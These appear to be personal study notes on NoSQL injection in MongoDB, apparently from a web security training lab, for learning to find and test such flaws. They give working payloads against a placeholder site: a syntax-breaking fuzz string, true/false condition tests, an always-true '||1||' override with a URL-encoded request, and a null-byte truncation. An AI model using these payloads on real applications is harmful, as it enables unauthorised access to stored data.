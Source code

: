 ![alt text](image-2.png)


**NoSQL databases**
They are designed to handle large volumes of unstructured or semi-structured data

**Types of NoSQL injection**
- Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload.
- Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

## NoSQL syntax injection
You can potentially detect NoSQL injection vulnerabilities by attempting to break the query syntax. 

*Detecting syntax injection in MongoDB*

    https://insecure-website.com/product/lookup?category=<fizzy_words>
    this.category == 'fizzy'                                            interept in the server

    Payload:
    '"`{;$Foo}$Foo \xYZ                  #for url it is url coded

    Determine which character is processed
    this.category == '''      #broken syntex
    this.category == '\''     #not broken syntex then conclude to injection attack


    Confirming conditional behavior

    ' && 0 && 'x and ' && 1 && 'x        (false & true)
    If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

    Overriding existing conditions
    '||1||'                   #payload
    https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

    this.category == 'fizzy'||'1'=='1'

    You could also add a null character after the category value. MongoDB may ignore all characters after a null character.
    https://insecure-website.com/product/lookup?category=fizzy'%00 #construct payload

## NoSQL operator injection

*Operstor in MongoDB*
- $where - Matches documents that satisfy a JavaScript expression.
- $ne - Matches all values that are not equal to a specified value.
- $in - Matches all of the values specified in an array.
- $regex - Selects documents where values match a specified regular expression.
